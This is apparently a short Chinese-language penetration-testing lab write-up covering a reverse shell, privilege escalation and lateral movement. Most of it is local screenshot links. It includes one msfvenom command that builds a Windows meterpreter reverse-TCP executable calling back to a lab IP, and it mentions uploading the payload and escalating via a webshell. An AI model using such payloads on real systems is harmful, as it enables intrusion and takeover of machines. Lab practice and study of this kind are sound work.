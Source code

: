 ![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-12-15-52-16-image.png)

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-12-16-02-12-image.png)

### 反弹shell

生成payload

```shell
使用msfdb生成payload
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.111.128 LPORT=5555 -f exe -o a.exe
```

设置监听

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-12-16-37-39-image.png)

上传马并进行连接

得到shell

### 提权

通过webshell,连接到cs，然后直接提权

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-12-20-43-19-image.png)

### 横向渗透

![](C:\Users\21q017\AppData\Roaming\marktext\images\2023-10-13-15-04-11-image.png)
